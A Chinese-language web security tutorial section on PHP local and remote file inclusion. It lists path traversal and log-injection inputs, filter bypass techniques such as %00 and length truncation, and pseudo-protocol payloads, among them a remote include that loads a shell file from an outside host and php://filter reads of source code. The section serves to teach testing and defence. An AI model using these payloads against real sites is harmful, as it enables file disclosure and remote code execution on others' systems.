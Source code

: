 # 3.8. 文件包含

## 3.8.1. 基础

常见的文件包含漏洞的形式为 `<?php include("inc/" . $_GET['file']); ?>`

考虑常用的几种包含方式为

- 同目录包含 `file=.htaccess`
- 目录遍历 `?file=../../../../../../../../../var/lib/locate.db`
- 日志注入 `?file=../../../../../../../../../var/log/apache/error.log`
- 利用 `/proc/self/environ`

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

## 3.8.2. 绕过技巧

常见的应用在文件包含之前，可能会调用函数对其进行判断，一般有如下几种绕过方式

### 3.8.2.1. url编码绕过

如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过

### 3.8.2.2. 特殊字符绕过

- 某些情况下，读文件支持使用Shell通配符，如 `?` `*` 等
- url中 使用 `?` `#` 可能会影响include包含的结果
- 某些情况下，unicode编码不同但是字形相近的字符有同一个效果

### 3.8.2.3. %00截断

几乎是最常用的方法，条件是magic_quotes_gpc打开，而且php版本小于5.3.4。

### 3.8.2.4. 长度截断

Windows上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259个bytes。

msdn定义```#define MAX_PATH 260```，第260个字符为字符串结尾的```0```

linux可以用getconf来判断文件名长度限制和文件路径长度限制

获取最长文件路径长度：getconf PATH_MAX /root 得到4096 获取最长文件名：getconf NAME_MAX /root 得到255

那么在长度有限的时候，``././././`` (n个) 的形式就可以通过这个把路径爆掉

在php代码包含中，这种绕过方式要求php版本 < php 5.2.8

### 3.8.2.5. 伪协议绕过

- 远程包含: 要求 `allow_url_fopen=On` and `allow_url_include=On` ， payload为 `?file=[http|https|ftp]://websec.wordpress.com/shell.txt`
- PHP INPUT: 把payload放在POST参数中作为包含的文件，要求 `allow_url_include=On` ，payload为 `?file=php://input`
- BASE64: 使用Base64伪协议读取文件，payload为 `?file=php://filter/convert.base64-encode/resource=index.php`
- DATA: 使用data伪协议读取文件，payload为 `?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=` 要求 `allow_url_include=On`

## 3.8.3. 参考链接

- [Exploit with PHP Protocols](https://www.cdxy.me/?p=752)
- [lfi cheat sheet](https://highon.coffee/blog/lfi-cheat-sheet/)